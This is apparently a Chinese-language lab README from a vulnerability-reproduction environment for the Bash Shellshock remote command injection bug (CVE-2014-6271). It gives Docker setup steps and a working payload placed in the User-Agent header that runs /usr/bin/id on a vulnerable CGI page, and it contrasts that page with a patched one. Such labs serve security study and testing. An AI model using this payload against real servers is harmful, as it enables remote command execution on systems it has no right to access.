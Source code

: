 # Bash Shellshock 远程命令注入漏洞（CVE-2014-6271）

编译运行：

```
docker compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![](1.png)

同样的数据包访问safe.cgi，不受影响：

![](2.png)
